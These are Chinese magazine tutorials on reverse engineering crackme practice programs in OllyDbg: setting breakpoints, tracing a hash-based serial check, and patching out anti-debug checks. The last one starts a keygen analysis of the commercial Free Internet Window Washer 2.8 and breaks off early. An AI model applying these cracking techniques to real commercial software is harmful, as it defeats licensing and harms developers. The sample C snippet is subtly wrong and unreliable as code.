我想这应该是小菜们使用最多的方法了吧，当然也是最简单的一种方法。第一步当然是先来收集信息了，我们找一个简单的 crackme，打开它，用户名就填写 sss，注册码填写 123，点击注册，弹出了如图1所示的对话框。既然有对话框，还有提示信息“NO”，小菜我心中窃喜了，还犹豫什么，使用 OD 载入程序，选择“插件”－“超级字符串参考”，呵呵，看见了吗，“NO”马上映入了眼帘，如图2。双击它后就来到了我们的关键代码处，这里就不再啰嗦了。

### 二、函数断点

并不是所有的 crackme 都可以使用超级字符串解决。

小菜们并没有灰心，因为他们看到有对话框，于是就在命令行里输入了“bp MessageBoxA”，重新填写了用户名和注册码后进行注册，程序马上被断下来了，按 Alt+F9 就来到了关键代码处，如图5。这是小菜们学到的第一个函数断点，虽然还不知道它究竟是如何实现的，但它确实很好用。


其实 MessageBoxA 是微软封装的一个函数，这个函数的作用就是显示一个对话框。这是微软为程序员编写的一个函数，如果程序员想显示一个对话框，直接调用它就行了，不用自己再去重新编写一个。编写这个 crackme 的作者就调用了这个函数来显示“Try harder”这条信息，因此我们在这个函数上下断点，当程序要显示对话框时就被断了下来，而我们离关键代码也就不远了。

接下来我们使用另一个 crackme 来进行实验。第一步还是收集信息：我们打开这个 crackme，它与一般的 crackme 不同，需要载入一张图片。我们随便找张图片加载，注册码填写 123，点击注册，有对话框出现，给出了提示信息“Wrong seria”，如图6。


这个 crackme 使用“超级字符串参考”是可以直接到达关键代码处的，这里我就不演示了。我们关心的是能否使用断点将它断下来。在命令行里输入“bp MessageBoxA”，重新载入图片，填写注册码，点击注册，程序并没有被断下来，这是为什么呢？此时小菜们怀疑自己是不是看花了眼，确实看到有对话框出现了，可程序就是没有被断下来，小菜们一下子陷入了困惑中。

事实上微软为显示一个对话框编写了好多函数，而 MessageBoxA 只是它们其中的一个，常见的还有 MessageBoxW、MessageBoxIndirectA、MessageBoxIndirectW、MessageBoxExA、MessageBoxExW 等等。这个 crackme 的作者使用的就是 MessageBoxIndirectA，理所当然我们刚才下的断点是断不下程序的。这次我们在命令行里输入“bp MessageBoxIndirectA”，点击注册，程序成功地被断了下来，如图7，很容易是不是？


下面我们进行另一个试验，当然是另一个 crackme 了。打开这个 crackme，嗯，界面是经过美化的，还不错。这个只要填写注册码就行了，我们填写 123，点击注册，嗯？居然没有弹出对话框，再来试试，还是没有，如图8。小菜们目瞪口呆，真变态啊，连对话框都没有，这可难倒大家了，真是把他们急得像热锅上的蚂蚁一样！首先我建议大家要保持一颗冷静的头脑，要全神贯注，然后当然是听我讲了。

既然我们能在显示对话框的函数上下断，那么也就能在其他的函数上下断点。我们来分析一下整个注册过程：打开了 crackme，输入了注册码，然后程序得到注册码经过计算……等等，程序是如何得到注册码的呢？哈哈，终于找到突破了吧。同样，微软为获得对话框内文本也封装了一些函数，常用的有 GetWindowText、GetDlgItemText、GetDlgItemInt 等等。

问题我们已经分析得很清楚了，那么接下来就开始实验吧。使用 OD 载入程序，按 F9 运行，出现了注册窗口，填写好相应的信息，然后我们下断点。这里我们使用 OD 的一个插件——“API Breaker”，当然也可以在命令行下断点，但使用这个插件更方便一些。我们进行下面的操作：选择“插件”→“API Breaker”，出现了如图9所示的界面，我们选择其中的“Dialog”，出现了如图10所示界面。

这里有六个函数，但 crackme 的作者是使用哪个函数来获得的注册码，我们并不知道。既然如此，那我们就全部都选上，点击“OK”按钮，这样就成功下断了。点击“注册”，呵呵，成功地断下了，然后再按 Alt+F9（执行到用户代码），我们是不是已经来到关键代码处了，如图11。


图11

### 三、消息断点

经过上面的学习，小菜们已经在没有字符串提示信息、没有对话框的情况下，可以定位到关键代码了。大家是不是感到很兴奋了？接下来我们再学习一些更有深度、更有趣的东西。

我们来做一个试验，打开前面使用过的一个 crackme。这个 crackme 使用“超级字符串参考”和对话框函数断点都能够直接到达关键代码处。我们来试一下：对获得对话框内文本函数下断点，依然使用 OD 的插件下断，点击注册，嗯，没有断下来。OD 插件中的函数不够？那好，我们查询 MSDN，将有这个功能的函数都找出来，然后一一下断。我们已经确定用完了所有的函数，但程序就是断不下来，小菜们再一次崩溃了：程序是如何获得我们输入的注册码的呢？这不太可能啊！？

呵呵，这完全可能。大家认为不可能，这是因为你们还不了解 Windows。Windows 是一个消息驱动式系统，Windows 消息提供应用程序与应用程序之间、应用程序与 Windows 系统之间进行通信的手段。应用程序想要实现的功能由消息来触发，并且靠对消息的响应和处理来完成。这里有一个形象的比喻：将 Windows 比喻成一个传令兵，而我们的操作，比如敲击键盘和点击鼠标，就会触发不同的消息，Windows 将这些消息传递给应用程序以实现我们的目的。下面我来介绍几个常用的消息。

- 1. **WM_COMMAND 消息**  
  当用户从菜单或按钮中选择一条命令，或者一个控件发送给它的父窗口。在我们的实验中，当点击 crackme 上的“LoadImage”和“check”这两个按钮时，就会发送这条消息给父窗口。

- 2. **WM_GETTEXT 消息**  
  应用程序发送一条 WM_GETTEXT 消息，拷贝一个对应窗口的文本到一个调用程序提供的缓冲区。在我们的试验中，当点击 crackme 上的“check”按钮时，crackme 会发送这条消息，将对话框内的注册码拷贝到预先分配好的缓冲区。这就是我们对获得对话框内文本函数下断，但却不能断下程序的原因。这个 crackme 的作者并没有使用微软封装的函数来获得我们输入的注册码，而是通过发送一条 WM_GETTEXT 消息的方式，悄悄地将注册码放在了预先准备好的缓冲区内，这招够厉害吧！

- 3. **WM_LBUTTONDOWN 消息**  
  当光标在一个窗口的客户区并且用户按下鼠标左键时，WM_LBUTTONDOWN 消息被发送。在我们的实验中，我们要点击“check”，就要按下鼠标左键。如果我们在这条消息上下断，应该也能到达关键代码处。

- 4. **WM_LBUTTONUP 消息**  
  当光标在一个窗口的客户区并且用户释放鼠标左键时，WM_LBUTTONUP 消息被发送。这个我就不多说了，与上面的相同。


图12


图13


图14


图15

好了，具体的消息我就介绍完了。我们在这四个消息上下断，都能到达关键代码处。来具体操作一下吧：使用 OD 载入程序，按 F9 运行，弹出了注册窗口，加载好图片，填写好注册码。嗯，到了下消息断点的时候了，我们进行下面操作：选择“查看”——“窗口”，就会弹出如图12所示的界面。

接着我们选中“check”那行，单击鼠标右键，选择“消息断点设置在 classproc”，就会弹出如图13所示的界面。在“信息”的那个下拉列表中选择我们想要下断的消息，其中 WM_COMMAND、WM_LBUTTONUP、WM_GETTEXT 的序数分别是 111、202、00D。我这里选择的是 WM_LBUTTONUP，然后点击 OK，再按 F9 运行，程序就被断下来了，如图14。在代码处看到堆栈中的数据没有，我们确实断在了 WM_LBUTTONUP 处。还等什么呢？我们取消断点，按 Alt+F9（执行到用户代码），看看是不是已经到了关键代码处了，如图15。

至此，文章就结束了。本文的目的是教会小菜们使用 OD 下断的基本用法，希望大家可以在此基础上多多发挥，那样才会有更大的进步。本文所写都是根据自己的理解，文中难免会有错误，还望高手不吝赐教！

（文章中涉及到的 OD 以及 crackme 程序，已经收录在了光盘中）

## 浅谈脱壳的追码经历

木木


小菜我看 X 档案已经有半年多，学到了不少东西，这真是一本好杂志啊。最近我终于有了自己的电脑，可以将自己学到的东西用于实践了，于是就从 X 档案附带的光盘中找了几个 crackme 来练手，成功地磨破了几个，轻松地度过了破解的第一阶段，进入了第二阶段的追码。前面几个都容易地追到了注册码，但世事难料，过早的高兴让我跌入了失败的深渊。我到底遇到了什么样的难题，又是如何克服困难的呢？大家请听我慢慢道来！

和其他刚入门的小菜一样，拿到了 crackme 后当然是先来查壳了，如图1所示。哈哈，没有加壳，这可是个好消息。对于一般的壳，小菜我还是能够脱掉的，但如果遇到了 ZP 那种强壳，脱起来就比较麻烦了。既然没有壳，那我们就省去脱壳的这一步骤了。

接下来就进入第二步——收集信息。我们运行 crackme，用户名就填 kkkk，注册码填写 123，点击注册，这时会弹出一个对话框，上面有字符“No”，如图2。


图2


图1

既然有提示信息和对话框，那就好办了。我们进入第三步——使用 OD 载入程序，先来尝试一下超级字符串查找。嗯，人品不错，提示信息马上映入了眼帘，我们双击进入，就来到了下面的代码处。


```asm
004055DD    E8 3ED9FFFF      call ...
004055E2    99               cdq
004055E3    8945 F0          mov dword ptr ss:[ebp-10],eax
004055E6    8955 F4          mov dword ptr ss:[ebp-C],edx
...
0040561B    75 29            jnz short ...
0040561D    837D F4 00       cmp dword ptr ss:[ebp-C],0
00405621    75 08            jnz short ...
00405623    837D F0 04       cmp dword ptr ss:[ebp-10],4
00405627    76 1D            jbe short ...
```

```asm
0040562F    68 AC564000      push ... ; "/OK"
00405639    A1 0C754000      mov eax,dword ptr ds:[40750C]
0040563E    50               push eax
0040563F    E8 ...           call <jmp.&user32.MessageBoxA>
00405646    6A 00            push 0
00405648    68 B0564000      push ... ; "/NO"
00405652    A1 0C754000      mov eax,dword ptr ds:[40750C]
00405657    50               push eax
00405658    E8 ...           call <jmp.&user32.MessageBoxA>
```

不难看出 0040561B 处就是关键跳了，要爆破的话我们直接修改这里就行了，但我们的目的是追码，所以就继续往上看。在 0040560F 处这里就是关键 CALL 了。当我进入这个 CALL 后，悲剧发生了。我进入后，里面又有几个 CALL，我依次遍历，可就是不见注册码的身影，真是奇怪呀。我又连续追了五六次，浪费了近一个小时，然后就是盯着电脑发呆，然后宿舍的灯就灭了，然后……

这事并没有就此结束，否则的话，也就不会有本文了。呵呵，那么我在遇到困难后是如何去做的呢？我到网上开始寻找答案，在各大论坛漫无目的地转着，企图寻找出问题的答案。不知是因为我太笨还是别的什么原因，我不但没有找到问题的答案，反而却还受到了极大的刺激。论坛上的高手们动辄就贴出了一大堆代码，然后分析得我一句都看不懂，让我很是受伤，水平太菜了，我不禁自叹！

当刺激变成了动力，我便做出了决定：小菜我也要来个算法分析，充当一下高手。其实做出这样的决定是经过认真考虑的。首先，只有通过算法分析我才能搞清楚为什么追不到注册码。其次，破解的第三个阶段就是算法分析，我可以更快地进行自我提高。说干就干，开始吧。我们先来看关键跳的上一句，它测试 ECX 是否等于 0，如果不等于就跳向注册失败。它的上一句也就是 00405616 这句，是将堆栈（ebp-2C）与 ECX 进行异或运算。在这里我们就得充分发挥一下自己的想象力了。我是这样想的：它们俩进行异或，然后再测试，再跳转，这肯定是有原因的。我猜想这两个数据肯定与我们输入的用户名和注册码有关，来验证一下我们的猜想吧。

我们选择 00405616 这行，按 F2 下断，然后再按 F9 运行程序，断下来了，看到了 [ebp-2C]=[0012FC48]=8F799839 以及 ECX=0000007B，如图3。


图3

记下 8F799839 和 0000007B 这两个数字，然后按 CTRL+F2 重新运行，再按 F9 运行，注册窗口出现了。这次我们注册码填写 SSSS，注册号就填写 123，然后点击注册，程序在相同的地方断了下来。我们再来看看，这时 [ebp-2C]=[0012FC48]=996C56C2，ECX=0000007B，与上次不一样了吧，如图4。


图4

这就证明了我的猜想是正确的。既然叫逆向工程，那我们就逆着向上来看 ECX 的值到底是什么。通过 00405614 这句，我们知道 ECX 的值来自 EAX。我们再继续往上就来到了关键 CALL。看起来必须进入 CALL 中才能找出问题的答案，那我们就按 F7 步入吧。进入后经过我的定位，关键算法代码如下：

```
004041D9    B8 01000000      mov eax,1
004041DE    03D2             add edx,edx
004041E0    8D1492           lea edx,[edx+edx*4]
004041E3    8B5D F8          mov ebx,dword ptr ss:[ebp-8]
004041E6    0FB63C03         movzx ebx,byte ptr ds:[ebx+eax-1]
004041EB    03D3             add edx,ebx
004041ED    83EA 30          sub edx,30
004041F0    40               inc eax
004041F1    3BC8             cmp ecx,eax
004041F3    75 E9            jnz short shalcrac.004041DE
```

在 004041E3 指令中，堆栈 ebp-8 储存的是“0123”，也就是我们输入的注册码，程序在它前面加了一个 0，这应该也是程序的一种算法吧。下一句 004041E6，是将字符串“0123”的第一个字符“0”送入 EBX 中，接着与 EDX 相加。因为 EDX 的值为 0，字符“0”的十六进制为 30，这条指令执行完后，EDX=30。下一句 EDX 中的值减 30，执行完后 EDX=0。然后 EAX 增一，与 ECX 相比。ECX 储存的是字符串的个数，不相等就跳上去执行，直到读完所有的字符。这里我使用一段 C 语句来表示：

```c
Char s[]={0,1,2,3};
Double sum=0;
For(i=0;i<4;i++)
    sum+=(s[i]-30);
printf("sum=%x",sum);
```

这样小菜们就能理解了吧，运行结果为 EDX=0000007B。这个数字很眼熟吧，在图4中我们就见到过这个数字。这并不是偶然，图4中的那个数字就是从这里算出来，然后传到了那里。

现在我们终于明白了，图4中那个 ECX 是通过我们输入的注册码，使用上面的算法算出来的。这已经能够解释我为什么追不到注册码了，因为在关键 CALL 里并没有进行明码比较，而是通过这种算法算出一个值，再去与用户名算出的值进行异或，通过测试异或得到的值来判断程序该跳到哪儿。

现在我们已经追到 ECX 了，接下来就该去追 [ebp-2C] 了。这是一个乏味而又漫长的过程，我们应该做好心理准备。那么我们应该如何去追 [ebp-2C] 呢？小菜我就给大家介绍一个笨方法吧。这种方法需要极大的耐心，但却很有效。如果哪位高手有更好的方法，别忘了告诉小菜我啊！好了，废话少说，我们开始吧！

我们按 CTRL+F2 重新运行，来到堆栈窗口，单击右键，选择前往表达式，然后在对话框内输入 0012FC48，如图5。为什么要输入这个数字呢？其实它就是 ebp-2C。然后再单击右键，选择锁定堆栈，这样 0012FC48 这项就不动了。我们边单步边注意这项数值的变化，有 CALL 就按 F7 步入。经过了 N 次 F7、2N 次的 F8 后，我们来到了下面的代码处：


图5

```asm
00405336  C703 01234567      mov dword ptr ds:[ebx],67452301
0040533C  C743 04 89ABCDEF   mov dword ptr ds:[ebx+4],EFCDAB89
00405343  C743 08 FEDCBA98   mov dword ptr ds:[ebx+8],98BADCFE
0040534A  C743 0C 76543210   mov dword ptr ds:[ebx+C],10325476
00405351  C743 10 F0E1D2C3   mov dword ptr ds:[ebx+10],C3D2E1F0
```

```asm
004055F9  B8 04000000        mov eax,4
004055FE  8D55 D8            lea edx,dword ptr ss:[ebp-28]
00405601  8B0A               mov ecx,dword ptr ds:[edx]
00405603  314D D4            xor dword ptr ss:[ebp-2C],ecx
00405606  83C2 04            add edx,4
00405609  48                 dec eax
0040560A  75 F5              jnz short ...
```

这段代码依次将 67452301、EFCDAB89、98BADCFE、10325476、C3D2E1F0 这几组数字压入堆栈 0012FC48、0012FC4C、0012FC50、0012FC54、0012FC58 中，但用户名并没有出现。我们继续按 F8，又经过了 N 次 F7、2N 次 F8 后，我们来到了如下代码处：

在这里堆栈 0012FC48 中的值变成了 8F799839。EAX 在这里充当循环寄存器，第二句把 0012FC4C 放入 EDX，第三句把 [0012FC4C] 送入 ECX，第四句对 [ebp-2C] 进行异或。经过 4 轮运算后，堆栈 0012FC48 中的值变成了 8F799839。由此可见需要继续追踪 0012FC4C、0012FC50、0012FC54、0012FC58 中的值与寄存器变化关系。

```asm
004052DA  8B3424            mov esi,dword ptr ss:[esp]
004052DD  0106              add dword ptr ds:[esi],eax
004052DF  8B0424            mov eax,dword ptr ss:[esp]
004052E2  0150 04           add dword ptr ds:[eax+4],edx
004052E5  8B0424            mov eax,dword ptr ss:[esp]
004052E8  0148 08           add dword ptr ds:[eax+8],ecx
004052EB  8B0424            mov eax,dword ptr ss:[esp]
004052EE  0158 0C           add dword ptr ds:[eax+C],ebx
004052F1  8B0424            mov eax,dword ptr ss:[esp]
004052F4  8B5424 04         mov edx,dword ptr ss:[esp+4]
004052F8  0150 10           add dword ptr ds:[eax+10],edx
```

通过上面的代码，我们意识到只有弄清楚堆栈 0012FC48、0012FC4C、0012FC50、0012FC54、0012FC58 中的值，才能完全清楚程序算法。虽然这些地址中原本是固定数值，但后来分别加上了寄存器 EAX、EDX、ECX、EBX、EDX 中的数值。继续向前追踪后可定位到更早的代码段（约从 0040426B 到 004052DA）。

这里依次是将堆栈 0012FC48、0012FC4C、0012FC50、0012FC54、0012FC58 中的值加上 EAX、EDX、ECX、EBX、EDX 中的值。我们先不追 EAX、EDX、ECX、EBX、EDX 中的值，因为堆栈 0012FC48 中的值还没有变成图 3 中的 8F799839，我们还得追下去才行。

```asm
00404223  31C9              xor ecx,ecx
00404225  8B048A            mov eax,dword ptr ds:[edx+ecx*4]
00404228  0FC8              bswap eax
0040422A  8903              mov dword ptr ds:[ebx],eax
0040422C  83C3 04           add ebx,4
0040422F  41                inc ecx
```

# 神秘园

```asm
00404230  83F9 10            cmp ecx,10
00404233  75 F0              jnz short shalcrac.00404225

00404235  B9 40000000        mov ecx,40
0040423A  8B43 F4            mov eax,dword ptr ds:[ebx-C]
0040423D  3343 E0            xor eax,dword ptr ds:[ebx-20]
00404240  3343 C8            xor eax,dword ptr ds:[ebx-38]
00404243  3343 C0            xor eax,dword ptr ds:[ebx-40]
00404246  D1C0               rol eax,1
00404248  8903               mov dword ptr ds:[ebx],eax
0040424A  83C3 04            add ebx,4
0040424D  49                 dec ecx
0040424E  75 EA              jnz short shalcrac.0040423A
00404250  5B                 pop ebx
00404251  C3                 retn
```

横线以上的部分产生了堆栈 0012FA64 到 0012FAA4 中的值，横线以下的部分产生了堆栈 0012FAA8 到 0012FBA4 中的值，我们分析一下它们是如何产生的吧！

先分析横线以上部分，很显然 ECX 充当循环寄存器，然后会将堆栈 edx+ecx*4 中的值送入 EAX。因为是第一次循环，这里 OD 上显示 EDX=0012FBD4，也就是说第一次会将堆栈 0012FBD4 中的值送入 EAX。接下来的这个运算符我也没有见过，那么就来参考一下 8086 汇编手册吧。手册上说运算符 bswap 的功能是交换 32 位寄存器里字节的顺序，在这里 EAX 中的值是 654B6944，执行这条指令后，EAX 中的值变为了 44694B65，果真如此，字节 65 移到了最后面，44 移到了最前面，69 移到……弄清楚这个运算符后我们接着来分析，然后会把运算后的数送入堆栈 ebx=0012FA64，然后 EBX 加 4，ECX 增 1，然后比较，再进入下一次循环。其实就是把堆栈 0012FBD4 到 0012FC10 中的值取出，运算后放入堆栈 0012FA64 到 0012FAA4 中去。

接着再来看横线下面的部分，ECX 充当循环寄存器，然后会把堆栈 ebx-C=0012FA9C 中的值送入 EAX，然后与下面几个堆栈中的值进行异或运算。其实前 3 个堆栈中的值都是 0，只有堆栈 ebx-40=0012FA6C 值不为空，而 0 与一个不为 0 的值异或，结果相当于将那个值送入 EAX。接下来的这个运算符我又没有见过，那么还是来参考一下 8086 汇编手册吧。手册上说 ROL 的功能是循环左移，现在终于弄清楚了，我们继续下一句吧。接着就把 EAX 中的值送入堆栈 ebx，第一次的时候 ebx=0012FAA8，然后 EBX 加 4，ECX 减 1，然后比较，再进入下一次循环。其实就是把堆栈 0012FA6C 中的值取出，运算后放入堆栈 0012FAA8 到 0012FBA4 中去。

这段代码弄清楚了，但新的麻烦又来了，因为我们并不知道堆栈 0012FBD4 到 0012FC10 中的值是如何产生的，而且我前面说过了算法与用户名有关，也没有弄清楚它们之间到底有什么关系，这就意味着我们必须再去追堆栈 0012FBD4 到 0012FC10 中的值是如何得到的。小菜们是否已经感到厌烦了，我只能鼓舞大家挺住，因为我们马上就要搞清楚了，也就是说这是我们的最后一道了。来开始吧，不知又经过了……我们来到了象征着胜利的代码处：

```asm
00404184  BE 01000000        mov esi,1
00404189  8A5C30 FF          mov bl,byte ptr ds:[eax+esi-1]
0040418D  881A               mov byte ptr ds:[edx],bl
0040418F  46                 inc esi
00404190  42                 inc edx
00404191  49                 dec ecx
00404192  75 F5              jnz short shalcrac.00404189
00404194  5E                 pop esi
00404195  5B                 pop ebx
00404196  5D                 pop ebp
00404197  C2 0400            retn 4
```

在这里我们输入的用户名终于露面了，堆栈 eax=00BE0045 储存的字符串“DiKeNkkkkk”就是我们输入的用户名前面再加上“DiKeN”，还记得我们上面分析过的程序，就是在我们输入的注册码前面加吗？这和那里一样，也是程序的一种算法。在这里程序将堆栈 00BE0045 储存的字符串的第一个字符即“D”送入 BL，然后再送入堆栈 edx=0012FBD4 中，然后 ESI 增 1，EDX 增 1，ECX 减 1，然后进入下一次循环，将第二个字符即“i”送入堆栈 edx+1=0012FBD5 中……依次将字符串中的字符送入堆栈 0012FBD4 到 0012FC10 中。

现在我们终于将整个算法分析清楚了，我们来整理一下。从哪儿开始的还记得吗？我们是从图 4 中的“00405616 334D D4 xor ecx,dword ptr ss:[ebp-2C]”这句代码开始我们的追踪之旅的。我们开始追的是 ECX，发现它是通过我们输入的注册码算出的，具体算法很简单，是注册码中的每个字符的十六进制减 30，然后求和。弄清楚 ECX 后，我们开始追堆栈 ebp-2C 中的数值，也就是 0012FC48 中的数值，整个过程很浪费时间，但经过我们的努力，最终还是弄清楚了。大概是这样的：程序先将我们输入的用户名前面加上字符串“DiKeN”组成一个新字符串，然后把新字符串取出经过一系列运算后，放入了新的堆栈中。关键算法在我没贴出来的那段超长代码中，它将字符串运算后的值和前面压入堆栈的 5 组固定数值作为参数，经过一系列前后有规律的运算后，再把运算后的新的 5 组数值送入原来的堆栈中，然后又把后 4 组数值与第一组进行异或运算，最后得到了我们追踪的堆栈 0012FC48 中的数值。然后程序会将由用户名算得的数值和由注册码算得的数值进行异或运算，判断程序是跳向注册成功，还是失败。

分析完了整个算法后，我感慨巨多啊！首先，我觉得这个程序对小菜们来说练爆破还可以，但要练算法分析，那就是遇上了巨大的灾难……相信经过这次的历练，以后再看高手们写的文章就能懂一些了，祝愿所有的小菜天天都会有进步！

- （文章中涉及到的 OD 以及用到的 crackme，已经收录在了光盘中）


## 与 Anti-debug crackme 斗智斗勇

我学习逆向工程已经有段时间了，个人认为 crackme 真是练手的好东西……使得我们对逆向工程失去了兴趣，这才是最致命的。

这个 crackme 是有对话框的，上面还带有提示信息……难道程序长了眼睛，看到我们正在使用调试器调试它，因此它自己退出了？

Crackme 玩法的精髓就在于算法和反调试……这次给大家带来的就是我与一个 Anti-debug crackme 斗智斗勇的故事，希望大家能够喜欢。

### 一、干掉杀手线程

程序当然没有长眼睛，它只不过是利用了某种方法检测出了我们的调试器……按 F9 运行程序，还是随便填写内容，点击“Try”，这回程序被成功地断下来了，如图 4。


图1

首先我们还是使用 PEiD 来查一下软件是否加了壳。根据 PEiD 的显示，程序没有加壳，是使用 Borland C++ 1999 编写的，如图 1。接下来我们开始收集信息吧，打开 crackme，随便输入一些内容，点击下面的“Try”，结果弹出了如图 2 所示的提示对话框。


图2


图3


这里我们不能取消断点，然后按 ALT+F9（执行到用户代码），那样的话程序就会退出去。我们仔细观察堆栈区，寻找是哪个函数调用这个函数的，应该是 00401DD5 这里的函数。我们前往表达式 00401DD5，得到了如下的代码：

```asm
00401DD0  6A 00              push 0
00401DD2  FF75 DC            push dword ptr ss:[ebp-24]
00401DD5  E8 78300600        call <jmp.&KERNEL32.TerminateProcess>
00401DDA  85C0               test eax,eax
00401DDC  74 17              jz short ...
```

我们直接 NOP 掉这 5 行代码，然后保存，就可以解决程序退出的问题了。

### 二、排除除零异常

解决掉前面的问题后，我们继续在命令行里输入“bp MessageBoxA”下断，并希望程序会被断在弹出对话框处，好把我们带入到关键代码处，然而结果却再一次出乎了我们的意料，程序又出现了新的问题，如图 5 所示。大家看到了吗？程序出现了除零异常。也许你会这么想：“是不是我们刚才的修改导致了程序异常呢？”但答案是否定的，为什么呢？

我们从软件开发者的角度来考虑这个问题。软件开发者在开发软件的时候必须要考虑软件的健壮性，也就是说他们要保证软件尽可能不出现运行错误和异常，因为软件是要给客户使用的。如果你编写的软件经常出现问题那谁还会使用啊！但事实上谁也不能保证软件不出现异常，即便是软件的开发者。因此软件开发者就编写了异常处理机制，当软件出现异常的时候就调用这个异常处理机制来修复异常，以确保程序能够继续运行。这也就是说，即便程序出现了异常，程序自己也可以处理，不用我们来处理。

然而在这里程序却抛出了异常来让我们处理，很显然这是程序编写者的诡计，企图阻止我们调试的脚步。该如何解决这个问题呢？我们应该找到出现异常的代码，然后绕过它。如何寻找出现异常的代码呢？难道我们要按 F7，F7，F7……一个小时，一整天，甚至更多的时间吗？这绝对不是一件有趣的事情，当然不可以，我们来寻找一个省时又省力的方法吧！


我们来考虑一下整个异常处理过程：程序出现了异常，然后执行被中断，调用异常处理机制来处理异常，异常被修复，程序从中断的地方开始继续执行。我们的问题也来了，程序是如何识别中断的地方呢？它是如何知道要从中断的地方继续执行呢？我从书上找到了答案，原来程序在将要处理异常时会将寄存器压入堆栈，等到异常处理完后，寄存器被恢复，程序继续执行。

知道了这点后，我们也就清楚如何来寻找出现异常的代码了，因为 EIP 也被压入了堆栈，EIP 指向的代码也就是出现异常的代码，因此我们就到堆栈中来寻找吧！等一下，你确定这样就可以找到吗？堆栈中的数据错综复杂，仅知道这点是不可能正确找到出现异常代码的，我们还需要做一件事，就是观察调试器的寄存器窗口，看看里面储存的数据都有什么特点，如图 6。


通过仔细观察，我们发现段寄存器 FS、ES、CS、SS、DS、GS 中的数据是保持不变的。我们可以根据这个特点到堆栈中来寻找压入其中的异常代码，结果很轻松地就找到了我们想要的东西，如图 7。这里的 00401ACF 就是被压入堆栈的 EIP，也就是我们要寻找的出现异常的代码。我们前往表达式 00401ACF 就得到如下的代码：

```asm
00401ACC  33C9   xor ecx,ecx
00401ACE  99     cdq
00401ACF  F7F9   idiv ecx
```


这里程序先将 ECX 清零，然后进行除法运算，除零异常也就产生了。可以看出程序并不是偶然产生异常的，很显然是程序的编写者精心设计的，目的就是阻止我们调试程序。我们直接 NOP 掉 00401ACC 处这句代码然后保存，就可以绕过这里的异常了。

### 三、除掉 IsDebuggerPresent

在处理掉前面的问题后，我们还没有解决掉所有的反调试，因为新的问题又出来了，这次程序的表现是不停地弹出对话框，如图 8。


图8

那我们就下断“bp MessageBoxA”，然后追踪是哪里调用了这个函数。程序成功断下后，取消断点，按 ALT+F9（执行到用户代码）后，得到了如下的代码：

```asm
00401B16  6A10            push 10
00401B18  B9 69624600     mov ecx,00466269
00401B1D  8D55C4          lea edx,dword ptr ss:[ebp-3C]
00401B20  A1 B8A94600     mov eax,dword ptr ds:[46A9B8]
00401B25  8B00            mov eax,dword ptr ds:[eax]
00401B27  E8 282F0600     call 00464A54
```

上面的这个 CALL 会调用显示对话框的函数 MessageBoxA。我们把代码向上翻，看能不能找到绕过这个 CALL 的代码。

```asm
00401ACF  F7F9            idiv ecx
00401AD1  8945D8          mov dword ptr ss:[ebp-28],eax
00401AD4  66C745EC0000    mov word ptr ss:[ebp-14],0
00401ADA  EB0B            jmp short 00401AE7
00401ADC  66C745EC1000    mov word ptr ss:[ebp-14],10
00401AE2  E8 87000600     call 00461B6E
00401AE7  E8 CA320600     call <jmp.&KERNEL32.IsDebuggerPresent>
00401AEC  48              dec eax
00401AED  7445            jnz short 00401B34
```

00401ACF 处的代码并不陌生。程序会执行 `call <jmp.&KERNEL32.IsDebuggerPresent>`。IsDebuggerPresent 是微软提供给开发者用于检测调试器的函数。

首先我们需要知道在进程结构中有一个 BOOLEAN 变量，这个变量用于标志当前进程是否处于被调试状态。IsDebuggerPresent 函数就是通过查看这个变量来检测调试器的。

只要把 00401AED 处的 `jnz` 改为无条件跳转 `jmp`，就可以轻松绕过。到此为止，我们解决了反调试问题，现在可以进行算法分析了。

文中还提到可在字符串窗口看到 “OLLYDBG.EXE”，并在反汇编窗口看到 “CreateToolhelp32Snapshot”、“Process32First”、“Process32Next” 等字符串，这对应经典的父进程检测法。


图9

因为一般情况下普通 Win32 进程的父进程是 Explorer.exe，如果不是，则很可能是被调试器加载。程序通过 CreateToolhelp32Snapshot 获取进程快照，再用 Process32First 和 Process32Next 遍历并判断，比较当前父进程名是否为 Explorer.exe；若不是则调用 TerminateProcess 退出。

本文中的 crackme 不仅检测 OLLYDBG.EXE，还检测 TRW2000.EXE、WinIce.exe、DeDe.exe 等调试工具。至此问题基本弄清，文章结束并给出祝福语。

- （文章中涉及到的 PEiD、OD，已经收录在了光盘中）

## 算法分析与注册机实战之 Free Internet Window Washer 2.8

破解的最高境界就是分析算法并写出注册机，以实现最完美的破解。算法分析需要破解者拥有深厚的逆向及汇编功底，而编写注册机则需要懂得程序开发。因此，很多学习破解的小菜都只停留在暴力破解和简单的追踪注册码阶段。为了让大家能够轻松晋级到更高的境界，本文我就把自己总结出来的一些经验写出来和大家分享一下。

我们以 Free Internet Window Washer 2.8 为例来讲解算法分析和编写注册机的一般方法和步骤。这是一个垃圾清理软件，还算比较不错。在此声明，本文仅限于技术研究目的，请勿非法传播注册机，请勿对软件开发者的利益造成侵犯。


### 第一部分：算法分析

- 第一步，安装完该程序后，先使用 PEiD 进行查壳，发现程序是使用 Borland Delphi 6.0 - 7.0 编写的，并没有加壳，如图1。


- 第二步，打开程序，随意输入一个假的注册码进行注册，结果弹出了注册失败的信息，我们把这个提示信息记录下来，如图2。

- 第三步，使用 OD 载入程序进行调试。加载完毕后，查找关键字，也就是上面注册失败的提示信息了，方法如图3所示，使用 OD 插件中的字符串查找工具即可。


通过查找后发现，字符串中并没有注册失败的信息。通常如果在这里没有找到注册失败信息，我们就会使用 API 断点等辅助方法。在程序的安装目录下发现该程序支持多种语言显示，如图4。我们找到了一个名为 WLang_English.ini 的文件并打开，通过文件名可以得知这是英文显示语言包，打开后搜索注册失败信息，结果如图5所示。在其中查找 `RES_Registration_Error` 字符串，果然找到了一处，如图6。这也就是说程序为了实现支持多语言显示，将注册失败信息使用 `RES_Registration_Error` 变量显示了，`RES_Registration_Error` 变量可以根据不同的语种包来显示不同的内容。


图5


图8


图6

双击 `RES_Registration_Error` 信息，来到了反汇编窗口进行注册流程的分析，如图7所示。`004D34C5` 处就是 `res_registration_error` 变量，也就是显示错误信息的地方了。向上阅读反汇编代码，为了简单，一般我们会在这个函数的头部下断点来进行调试，这样就省去了逐行阅读反汇编代码的烦恼。根据 OD 的提示，函数的头部在 `004D3464` 处，按 F2 下断点，然后进行动态调试。


图7

- 第四步，下好断点后就可以运行程序进行动态调试了，按 F9 运行程序，程序运行后继续使用假注册码进行注册，点击 OK 后程序就断在了我们下的断点上，如图8所示。然后我们就可以进行单步调试了，按 F8 进行单步调试，每一次按 F8 后都要注意寄存器和缓冲区的变化，尤其是要关注注册码信息是否出现。

